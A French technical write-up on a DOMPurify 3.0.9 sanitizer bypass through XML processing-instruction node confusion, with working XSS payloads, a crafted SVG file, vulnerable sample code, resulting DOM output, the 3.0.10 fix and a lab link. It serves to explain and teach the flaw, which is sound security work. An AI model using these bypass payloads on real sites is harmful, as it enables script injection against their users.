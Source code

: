 ```yaml
---
description: 03 mai 2024
---
```


# Dompurify 3.0.9 bypass - Node type confusion

## Crédits

Cet article se base sur les recherches de [slonser\_](https://twitter.com/slonser\_) ([https://blog.slonser.info/posts/dompurify-node-type-confusion/](https://blog.slonser.info/posts/dompurify-node-type-confusion/)).

## Confusion HTML et XML

Au sein d'un document HTML, rien n'empêche un noeud XML d'avoir un noeud HTML en tant que parent. C'est par exemple le cas d'un SVG intégré au sein d'une page HTML :

```html
<div id="userContent">
  <svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
    <rect width="50" height="50" fill="green" />
  </svg>
</div>
```

L'image vectorielle s'affichant sans erreur au sein de la page.

### L'interface ProcessingInstruction

L'interface `ProcessingInstruction` représente un noeud qui intègre une instruction de traitement spécifique à une application XML. Elle possède le format suivant :&#x20;

```xml
<?target data?>
```

Par exemple :&#x20;

```xml
<?xml-stylesheet href="style.css"?>
```

Lorsque Dompurify assainit une chaîne de caractères de type XML, et que l'option adéquate est :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?xml-stylesheet <img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'}); 
```

Les instructions de traitement (processing instructions) ne semblent pas être assainies par la bibliothèque. L'évenement `onerror` ainsi que l'appel à la méthode `alert()` ne sont pas supprimés : &#x20;

```html
<div id="userContent">
  <!--?xml-stylesheet <img src=x onerror=alert(1)-->
  "?>"
</div>
```

Malheureusement, le code est commenté par le navigateur, empêchant ainsi son exécution : &#x20;

<figure><img src="../../../.gitbook/assets/image (328).png" alt=""><figcaption><p><a href="https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction">https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction</a></p></figcaption></figure>

Toutefois, le navigateur commente le code jusqu'à rencontrer le prochain caractère `>`, il est donc possible d'exploiter ce comportemement de la façon suivante :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?xml-stylesheet ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'}); 
```

L'affichage de la page HTML provoque dorénavant l'exécution de la méthode `alert()` :&#x20;

```html
<div id="userContent">
  <!--?xml-stylesheet -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

Par défaut, Dompurify traite la chaîne de caractères comme du HTML, et non du XML, excepté si l'option `{PARSER_MEDIA_TYPE: 'application/xhtml+xml'}` est spécifée. De plus, il est assez rare d'identifier une cible imposant ce type de média et intégrant ensuite la donnée assainie au sein d'un document HTML.

### Assainissement d'un noeud

La manière la plus fréquente d'utiliser la méthode `sanitize()` de Dompurify est de lui passer une chaîne de caractères en tant que paramètre :&#x20;

{% code fullWidth="false" %}
```javascript
DOMPurify.sanitize("<img src='https://example.com/image.png'>")
```
{% endcode %}

Mais bien que moins utilisé, il est également possible de lui passer directement un noeud :&#x20;

```javascript
let img = document.createElement('img');
img.src = "https://example.com/image.png";

let userContent= document.getElementById('userContent');            
userContent.innerHTML = DOMPurify.sanitize(img);
```

Toutefois, lorsque le noeud est un noeud XML, le même comportement que précédent est possible lors de l'utilisation des instructions de traitement.

L'exemple suivant illustre une fonctionnalité permettant à l'utilisateur de fournir une URL afin de charger un fichier SVG, qui sera assaini par Dompurify avant d'être intégré au document HTML :

```javascript
let xhr = new XMLHttpRequest();

xhr.onreadystatechange = function() {
  if (xhr.readyState === 4 && xhr.status === 200) {
    let content = xhr.responseText;
    let extension = xhr.responseURL.split('.').pop().toLowerCase();

    if (extension === "svg") {
      let svg = new DOMParser().parseFromString(content, "image/svg+xml").documentElement;
      let userContent= document.getElementById('userContent');
      userContent.innerHTML = DOMPurify.sanitize(svg);
    }
  }
}

xhr.open("GET", url, true);
xhr.send();
```

Lorsque l'utilisateur renseigne une URL vers un fichier SVG, tel que :&#x20;

```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?xml-stylesheet > <img src=x onerror="alert(1)">?>
</svg>
```

Dompurify échoue à assainir le noeud et permet l'exécution du code Javascript :&#x20;

```html
<div id="userContent"><svg viewBox="0 0 100 100" height="100" width="100" xmlns="http://www.w3.org/2000/svg">
  <rect fill="green" height="50" width="50"></rect>
  <!--?xml-stylesheet --> </svg><img src="x" onerror="alert(1)"> 
  "?>"
</div>
```

## Correction

Le correctif, apporté par la version 3.0.10 de Dompurify, consiste à l'ajout du masque `SHOW_PROCESSING_INSTRUCTION` lors du traitement des noeuds XML. Cela permet de traiter les noeuds de type `ProcessingInstruction` :&#x20;

```javascript
const _createNodeIterator = function _createNodeIterator(root) {
  return createNodeIterator.call(root.ownerDocument || root, root,
  // eslint-disable-next-line no-bitwise
  NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION, null);
};
```

Cette constante est définit par l'API DOM et utilisée par la méthode `createNodeIterator()`  ([https://developer.mozilla.org/en-US/docs/Web/API/Document/createNodeIterator](https://developer.mozilla.org/en-US/docs/Web/API/Document/createNodeIterator)).

## Labs

Afin de tester et d'exploiter ce contournement, une image Docker est disponible [ici](https://github.com/Sharpforce/cybersecurity-code/tree/master/dompurify-3.0.9-bypass-node-type-confusion).

